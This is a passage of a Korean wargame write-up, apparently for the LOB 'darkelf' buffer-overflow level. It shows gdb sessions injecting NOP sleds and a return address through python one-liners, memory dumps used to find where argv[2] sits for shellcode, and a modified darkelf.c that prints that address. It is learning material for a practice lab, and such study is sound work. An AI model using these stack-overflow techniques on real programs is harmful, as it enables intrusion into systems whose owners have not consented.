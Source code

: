 위 3개의 매개 변수 중 쉘 코드를 삽입할 위치는 `argv[2]` 이다.

`argv[2]`의 시작 주소 `0xbffffc43`를 따라가보니

인자 값 `x90(NOP)`가 정상적으로 들어가 있음을 확인할 수 있었다.

```
(gdb) r `python -c "print '\x90'*44+'\xbf\xbf\xbf\xbf'"` `python -c "print '\x90'*40"`
Starting program: /home/wolfman/tmp/darkelf `python -c "print '\x90'*44+'\xbf\xbf\xbf\xbf'"` `python -c "print '\x90'*40"`

Breakpoint 1, 0x80485f2 in main ()
(gdb) x/16wx $ebp
0xbffffab8:	0x90909090	0xbfbfbfbf	0x00000000	0xbffffb04
0xbffffac8:	0xbffffb14	0x40013868	0x00000003	0x08048450
0xbffffad8:	0x00000000	0x08048471	0x08048500	0x00000003
0xbffffae8:	0xbffffb04	0x08048390	0x0804864c	0x4000ae60
(gdb) x/16wx 0xbffffb04
0xbffffb04:	0xbffffbf8	0xbffffc12	0xbffffc43	0x00000000
0xbffffb14:	0xbffffc6c	0xbffffc82	0xbffffca1	0xbffffcc3
0xbffffb24:	0xbffffcd0	0xbffffe93	0xbffffeb2	0xbffffecf
0xbffffb34:	0xbffffee4	0xbfffff03	0xbfffff0e	0xbfffff1e
(gdb) x/16wx 0xbffffc43
0xbffffc43:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc53:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc63:	0x90909090	0x90909090	0x00000000	0x00000000
0xbffffc73:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
```

<br>

위에서 `argv[2]` 에 값이 정상적으로 덮어 써지고 있음을 확인하였다.

다음은 주어진 문제 `darkelf.c`의 소스코드 부분에서 아래와 같이 코드를 추가해 프로그램 실행 시 `argv[2]`의 시작 주소를  찾을 수 있다.

 ```c
        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }
        printf("argv[2] addr: %#x\n",argv[2]); // argv[2] address print.
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

}

[wolfman@localhost tmp]$ gcc darkelf.c
[wolfman@localhost tmp]$ ./a.out `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"` `python -c "print 'A'*100"`
argv[2] addr: 0xbffffc49
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault (core dumped)
[wolfman@localhost tmp]$
 ```
